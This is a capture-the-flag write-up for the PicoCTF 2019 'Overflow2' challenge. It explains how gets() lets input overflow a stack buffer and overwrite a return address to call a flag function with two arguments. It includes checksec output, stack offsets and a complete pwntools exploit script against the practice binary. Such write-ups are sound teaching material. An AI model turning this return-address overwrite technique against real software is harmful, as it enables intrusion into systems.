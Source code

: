 # PicoCTF 2019 - Binary Exploit - Overflow2

Similar to Overflow1 except that we have to overwrite the return address and pass 2 arguments to the flag function

## The Vulnerability
it calls 'gets', a function that is known to be very dangerous (it even says it in the man page to never use this function) The reason this function is dangerous is because of how it works: 'gets(char \*s) reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\0'). No check for buffer overrun is performed, so it keeps reading input, even if this is way bigger than the amount of memory allocated for that string causing it to overwrite values from the stack.

## File info
```
[Sain@kali:~/ctf/CTF_Writeups/picoCTF2019/Binary/OverFlow2]$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=80e23ef08eb912fde3fc2f7ff2148e0e62960080, not stripped
[Sain@kali:~/ctf/CTF_Writeups/picoCTF2019/Binary/OverFlow2]$ checksec vuln
[*] '/home/sain/ctf/CTF_Writeups/picoCTF2019/Binary/OverFlow2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## Exploit it

The exploit itself will work just like Overflow1 except that we have to find out where to put the arguments on the stack.

If we look at the disassembly of 'flag' we can see it gets the args from `ebp+0x8` & `ebp+0xc`

source c:
```c
if (arg1 != 0xDEADBEEF)
	return;
if (arg2 != 0xC0DED00D)
	return;
printf(buf);
```

disassemble:

![picture alt](https://i.gyazo.com/c00092c0725b3ddaf7c4e3d6de9a1959.png)

Okay now we have an idea of where we have to go with the arguments let's get to the buffer overflow part

First of all we know our buffersize is 176
If we fill up that buffer with 'A' our stack kinda looks like this:

![picture alt](https://i.gyazo.com/dfb59969aa2e28b538845eac4f7f7f6c.png)

Our return address is again 12 bytes after our buffer `0x0804871c` -> main+103

and our flag is located @ `0x080485e6`
so now we can do a small test to see the stack inside our flag function and see where we need to put the arguments

input here was: `python -c "'A' * 176 + 'B' * 12 + '\xe6\x85\x04\x08'"`

![picture alt](https://i.gyazo.com/81a7107a62a00f4d79a807e8e699b853.png)

As you can see there are 4 empty bytes inbetween our buffer and `ebp+0x8`
so we gotta modify our input a bit by adding 4 more bytes to our payload; behind the flag address

and then finally after those 4 we can put in the values it compares to in the disassembly

first argument: `0xdeadbeef` 
and second argument: `0xc0ded00d`

now that we got all that down our exploit script looks something like:

```python
from pwn import *

buff = "A" * 176 + "B" * 12
buff2 = "C" * 4

flag_loc = util.packing.p32(0x080485e6)
flag_arg1 = util.packing.p32(0xdeadbeef)
flag_arg2 = util.packing.p32(0xc0ded00d)

payload = buff
payload += flag_loc
payload += buff2
payload += flag_arg1
payload += flag_arg2

online = True

if online:
	file_loc = "/problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln"
	p = process(file_loc)
else:
	p = process("./vuln")

p.recvuntil("Please enter your string: \n")
p.sendline(payload)
print p.recvall()
```
